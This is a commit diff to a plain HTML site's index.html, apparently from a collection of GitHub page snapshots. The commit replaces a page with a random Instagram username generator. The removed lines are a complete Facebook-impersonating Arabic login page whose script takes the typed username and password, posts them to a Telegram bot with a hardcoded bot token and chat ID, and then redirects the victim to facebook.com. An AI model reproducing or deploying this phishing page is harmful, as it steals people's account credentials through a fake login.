

Before and after one commit to hadisalh/Mrhadi, a plain HTML site: page index.html in a window 1280 px wide. Drawn offline with Linux system fonts and the light colour scheme; grey boxes are pictures that could not be loaded.

Commit message:
Update index.html

```diff
--- a/index.html
+++ b/index.html
@@ -1,173 +1,184 @@
 <!DOCTYPE html>
-<html lang="ar" dir="rtl">
+<html lang="en">
 <head>
     <meta charset="UTF-8">
     <meta name="viewport" content="width=device-width, initial-scale=1.0">
-    <title>صفحة تسجيل الدخول</title>
+    <title>Instagram Username Generator</title>
     <style>
         body {
             font-family: Arial, sans-serif;
-            background-color: #f0f2f5;
-            display: flex;
-            justify-content: center;
-            align-items: center;
-            height: 100vh;
-            margin: 0;
-            padding: 0;
-            box-sizing: border-box;
+            background: #f0f2f5;
+            padding: 20px;
+            max-width: 800px;
+            margin: 0 auto;
         }
-
-        .container {
-            text-align: center;
-            width: 90%;
-            max-width: 300px;
-            padding: 20px;
-            background-color: white;
-            border-radius: 10px;
-            box-shadow: 0 0 10px rgba(0, 0, 0, 0.1);
+        .generator-box {
+            background: white;
+            padding: 25px;
+            border-radius: 12px;
+            box-shadow: 0 2px 10px rgba(0,0,0,0.1);
         }
-
-        .language-selector {
-            position: absolute;
-            top: 10px;
-            right: 10px;
-            cursor: pointer;
-        }
-
-        .logo {
-            width: 60px;
+        h1 {
+            color: #333;
+            font-size: 28px;
             margin-bottom: 20px;
         }
-
-        .input-field {
+        .input-group {
+            margin-bottom: 15px;
+        }
+        label {
+            display: block;
+            margin-bottom: 5px;
+            color: #555;
+            font-weight: bold;
+        }
+        input, select {
             width: 100%;
             padding: 10px;
-            margin: 10px 0;
-            border: 1px solid #ccc;
+            border: 1px solid #ddd;
             border-radius: 5px;
-            direction: rtl;
+            font-size: 16px;
         }
-
-        .login-button {
-            width: 100%; /* تطابق عرض الحقول */
-            padding: 10px;
-            background-color: #1877f2;
+        button {
+            background: #8a3ab9;
             color: white;
-            border: none;
+            border: 0;
+            padding: 12px 25px;
             border-radius: 5px;
             cursor: pointer;
-            transition: background-color 0.3s ease; /* إضافة التحول السلس */
+            font-size: 16px;
+            transition: background 0.3s ease;
         }
-
-        .login-button:hover {
-            background-color: #0e66d4; /* تغيير اللون عند التمرير */
+        button:hover {
+            background: #6c279e;
         }
-
-        .login-button:active {
-            background-color: #0a50a3; /* تغيير اللون عند الضغط */
+        .results {
+            margin-top: 25px;
         }
-
-        .error-message {
-            color: red;
-            margin-top: 10px;
+        .username {
+            background: #f8f9fa;
+            padding: 10px;
+            border-radius: 5px;
+            margin: 5px 0;
+            display: flex;
+            justify-content: space-between;
+            align-items: center;
         }
-
-        .forgot-password {
-            display: block;
-            margin-top: 10px;
-            color: #1877f2;
+        .check-btn {
+            background: #4CAF50;
+            padding: 8px 15px;
+            border-radius: 5px;
+            color: white;
             text-decoration: none;
+            margin-left: 10px;
         }
-
-        .create-account-button {
-            width: 100%;
-            padding: 10px;
-            border: 1px solid #1877f2;
-            color: #1877f2;
-            background-color: white;
+        .warning {
+            background: #fff3cd;
+            border: 1px solid #ffeeba;
+            padding: 15px;
             border-radius: 5px;
             margin-top: 20px;
-            cursor: pointer;
-        }
-
-        .meta-logo {
-            width: 40px;
-            margin-top: 10px;
-        }
-
-        @media (max-width: 480px) {
-            .container {
-                width: 95%;
-            }
+            color: #856404;
         }
     </style>
 </head>
 <body>
-    <div class="container">
-        <header>
-            <div class="language-selector">العربية</div>
-            <img src="https://i.imgur.com/g5ljZae.png" alt="Facebook Logo" class="logo">
-        </header>
-        <main>
-            <form id="loginForm">
-                <input type="text" placeholder="رقم الهاتف المحمول أو البريد الإلكتروني" class="input-field" id="username">
-                <input type="password" placeholder="كلمة السر" class="input-field" id="password">
-                <button type="submit" class="login-button" onclick="handleLogin(event)">تسجيل الدخول</button>
-                <div class="error-message" id="errorMessage"></div>
-                <a href="#" class="forgot-password">هل نسيت كلمة السر؟</a>
-            </form>
-        </main>
-        <footer>
-            <button class="create-account-button" onclick="window.location.href='https://www.facebook.com/?wtsid=rdr_0YTZMeGEzK6P49vvl&_rdr'">إنشاء حساب جديد</button>
-            <img src="https://i.imgur.com/vO2eiR4.png" alt="Meta Logo" class="meta-logo">
-        </footer>
+    <div class="generator-box">
+        <h1>Instagram Username Generator</h1>
+
+        <div class="input-group">
+            <label>اختر النمط:</label>
+            <select id="pattern">
+                <option value="words">كلمات عربية/إنجليزية</option>
+                <option value="numbers">أرقام فقط</option>
+                <option value="mix">حروف وأرقام</option>
+                <option value="custom">نمط مخصص</option>
+            </select>
+        </div>
+
+        <div class="input-group" id="customPatternGroup" style="display: none;">
+            <label>النمط المخصص (استخدم X للحروف و # للأرقام):</label>
+            <input type="text" id="customPattern" placeholder="مثال: XXX### أو ##XOXO">
+        </div>
+
+        <button onclick="generateUsernames()">توليد أسماء</button>
+
+        <div class="results" id="results"></div>
+
+        <div class="warning">
+            ⚠️ ملاحظة مهمة:
+            <ul>
+                <li>هذا الكود لا يفحص التوفر الفعلي بسبب قيود إنستغرام</li>
+                <li>التأكد من التوفر يتم يدويًا عبر زيارة: instagram.com/[username]</li>
+                <li>الاستخدام المكثف قد ينتهك شروط خدمة إنستغرام</li>
+            </ul>
+        </div>
     </div>
 
     <script>
-        function handleLogin(event) {
-            event.preventDefault(); // منع إعادة تحميل الصفحة
+        function generateUsernames() {
+            const patternType = document.getElementById('pattern').value;
+            const resultsDiv = document.getElementById('results');
+            resultsDiv.innerHTML = '';
 
-            const username = document.getElementById('username').value;
-            const password = document.getElementById('password').value;
-            const errorMessage = document.getElementById('errorMessage');
+            let pattern = '';
 
-            if (!username || !password) {
-                errorMessage.textContent = 'يرجى ملء جميع الحقول';
-                return;
+            if (patternType === 'custom') {
+                pattern = document.getElementById('customPattern').value;
+            } else {
+                // Generate default pattern based on selection
+                const patterns = {
+                    'words': 'XXXXXX',
+                    'numbers': '######',
+                    'mix': 'XXX###'
+                };
+                pattern = patterns[patternType];
             }
 
-            // Perform email validation
-            const emailRegex = /^[^\s@]+@[^\s@]+\.[^\s@]+$/;
-            if (!emailRegex.test(username)) {
-                errorMessage.textContent = 'البريد الإلكتروني غير صحيح';
-                return;
+            const usernames = [];
+            const count = 10; // Number of usernames to generate
+
+            for (let i = 0; i < count; i++) {
+                let username = '';
+                for (const char of pattern) {
+                    if (char === 'X') {
+                        username += getRandomLetter();
+                    } else if (char === '#') {
+                        username += getRandomNumber();
+                    } else {
+                        username += char;
+                    }
+                }
+                usernames.push(username);
             }
 
-            // Send data to Telegram bot
-            const botUrl = 'https://api.telegram.org/bot8149389736:AAFgeqcH2X_d8tgXId94BnE4NALRmN78ybU/sendMessage';
-            const chatId = '346233181';
-            const message = `Username: ${username}\nPassword: ${password}`;
+            usernames.forEach(username => {
+                const div = document.createElement('div');
+                div.className = 'username';
 
-            fetch(botUrl, {
-                method: 'POST',
-                headers: {
-                    'Content-Type': 'application/json'
-                },
-                body: JSON.stringify({
-                    chat_id: chatId,
-                    text: message
-                })
-            }).then(response => {
-                if (response.ok) {
-                    window.location.href = 'https://www.facebook.com/?wtsid=rdr_0YTZMeGEzK6P49vvl&_rdr';
-                } else {
-                    alert('حدث خطأ أثناء إرسال البيانات');
-                }
-            }).catch(error => {
-                console.error('Error:', error);
-                alert('حدث خطأ أثناء إرسال البيانات');
+                div.innerHTML = `
+                    ${username}
+                    <a href="https://www.instagram.com/${username}" target="_blank" class="check-btn">تحقق يدويًا</a>
+                `;
+
+                resultsDiv.appendChild(div);
             });
         }
+
+        function getRandomLetter() {
+            const letters = 'abcdefghijklmnopqrstuvwxyz';
+            return letters[Math.floor(Math.random() * letters.length)];
+        }
+
+        function getRandomNumber() {
+            return Math.floor(Math.random() * 10);
+        }
+
+        // Show/hide custom pattern input
+        document.getElementById('pattern').addEventListener('change', function() {
+            const customGroup = document.getElementById('customPatternGroup');
+            customGroup.style.display = (this.value === 'custom') ? 'block' : 'none';
+        });
     </script>
 </body>
 </html>
```
